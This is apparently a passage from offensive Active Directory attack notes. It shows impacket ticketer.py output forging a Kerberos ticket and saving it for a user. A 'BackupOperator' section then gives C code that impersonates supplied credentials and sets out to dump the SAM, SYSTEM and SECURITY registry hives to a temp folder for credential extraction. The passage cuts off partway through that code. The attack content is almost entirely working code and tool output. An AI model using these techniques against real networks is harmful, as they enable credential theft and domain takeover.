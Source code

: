     /usr/share/doc/python3-impacket/examples/ticketer.py:719: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
    encTicketPart['starttime'] = KerberosTime.to_asn1(datetime.datetime.utcnow())
    [*]     PAC_LOGON_INFO
    [*]     PAC_CLIENT_INFO_TYPE
    [*]     EncTicketPart
    /usr/share/doc/python3-impacket/examples/ticketer.py:843: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
    encRepPart['last-req'][0]['lr-value'] = KerberosTime.to_asn1(datetime.datetime.utcnow())
    [*]     EncTGSRepPart
    [*] Signing/Encrypting final ticket
    [*]     PAC_SERVER_CHECKSUM
    [*]     PAC_PRIVSVR_CHECKSUM
    [*]     EncTicketPart
    [*]     EncTGSRepPart
    [*] Saving ticket in tony.ward.ccache

# BackupOperator

[BackupOperatos](https://github.com/Wh04m1001/Random/blob/main/BackupOperators.cpp)

    #include <stdio.h>
    #include <Windows.h>

    void MakeToken() {
        HANDLE token;
        const char username[] = "<username>";
        const char password[] = "<password>";
        const char domain[] = "<domain>";

        if (LogonUserA(username, domain, password, LOGON32_LOGON_NEW_CREDENTIALS, LOGON32_PROVIDER_DEFAULT, &token) == 0) {
            printf("LogonUserA: %d\n", GetLastError());
            exit(0);
        }
        if (ImpersonateLoggedOnUser(token) == 0) {
            printf("ImpersonateLoggedOnUser: %d\n", GetLastError());
            exit(0);
        }
    }

    int main()
    {
        HKEY hklm;
        HKEY hkey;
        DWORD result;
        const char* hives[] = { "SAM","SYSTEM","SECURITY" };
        const char* files[] = { "C:\\windows\\temp\\sam.hive","C:\\windows\\temp\\system.hive","C:\\windows\\temp\\security.hive" };
        
        //Uncomment if using alternate credentials.
        //MakeToken();
